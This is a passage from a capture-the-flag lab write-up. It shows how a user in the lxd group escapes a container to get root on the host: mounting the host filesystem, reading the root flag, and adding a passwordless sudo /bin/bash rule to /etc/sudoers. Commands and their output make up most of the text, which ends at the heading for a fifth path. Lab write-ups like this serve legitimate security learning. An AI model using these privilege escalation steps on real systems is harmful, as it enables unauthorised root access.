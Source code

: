 ```

robert@obscure:~$ lxc exec container-0xdf /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # hostname 
container-0xdf

```

The host root file system is at `/mnt/root`:

```

/mnt/root # ls
bin             cdrom           etc             initrd.img      lib             lost+found      mnt             proc            run             snap            swap.img        tmp             var             vmlinuz.old
boot            dev             home            initrd.img.old  lib64           media           opt             root            sbin            srv             sys             usr             vmlinuz

```

I can read `root.txt`:

```

/mnt/root/root # cat root.txt
512fd442************************

```

There are many ways to turn this into a root shell on the host. For example, I can edit `/etc/sudoers` to add a second line for robert. I will need to `chmod +w sudoers` first (and ideally `chmod -w sudoers` once I’m done), as it’s currently set to not writable, even by owner.

```

robert ALL=(ALL) NOPASSWD:/usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
robert ALL=(ALL) NOPASSWD:/bin/bash 

```

Now I can exit the container, and run `sudo bash`:

```

/mnt/root/etc # exit
robert@obscure:~$ sudo /bin/bash
root@obscure:~# id
uid=0(root) gid=0(root) groups=0(root)

```

This was patched at some (unknown) point since December 2019 by removing the robert user from the lxd group.

### Path 5: Move BetterSSH Directory
